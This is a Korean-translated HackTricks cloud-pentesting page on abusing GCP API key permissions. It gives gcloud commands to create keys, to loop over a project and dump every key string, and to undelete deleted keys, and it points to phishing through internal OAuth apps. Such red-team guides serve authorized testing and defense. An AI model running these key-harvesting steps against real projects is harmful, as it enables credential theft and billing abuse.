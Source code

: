 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

다음 권한은 API 키를 생성하고 훔치는 데 유용합니다. 문서에서 다음과 같이 설명합니다: _API 키는 **주체 없이 애플리케이션을 식별하는 간단한 암호화된 문자열**입니다. 이들은 **공개 데이터에 익명으로 접근하는 데 유용**하며, **쿼터** 및 **청구**를 위해 API 요청을 프로젝트와 **연관시키는 데 사용**됩니다._

따라서 API 키를 사용하면 해당 회사가 API 사용에 대한 비용을 지불하게 할 수 있지만, 권한 상승은 할 수 없습니다.

API 키에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

API 키를 생성하는 다른 방법은 다음을 확인하세요:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

어떤 API가 프로젝트에서 활성화되어 있는지 또는 발견한 API 키에 적용된 제한 사항을 모를 수 있으므로, [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) 도구를 실행하고 **API 키로 접근할 수 있는 내용을 확인하는 것이 흥미로울 것입니다.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

이 권한은 **API 키를 생성할 수 있게 해줍니다**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
기본적으로 사용자는 새 프로젝트를 생성할 수 있는 권한이 있으며, 새 프로젝트에 대해 Owner 역할이 부여됩니다. 따라서 사용자는 **프로젝트를 생성하고 이 프로젝트 내에서 API 키를 생성할 수 있습니다**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

이 권한은 **모든 apiKeys를 나열하고 가져오며 Key를 가져오는** 것을 허용합니다:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

이 권한은 **삭제된 API 키를 나열하고 재생성**할 수 있게 해줍니다. **undelete**가 완료된 후 **API 키는 출력에 제공됩니다**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### 내부 OAuth 애플리케이션 생성하여 다른 직원 피싱하기

이 작업이 **`clientauthconfig`** 서비스에 속한다는 [문서에 따라](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin) 이를 수행하는 방법을 배우려면 다음 페이지를 확인하세요:

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
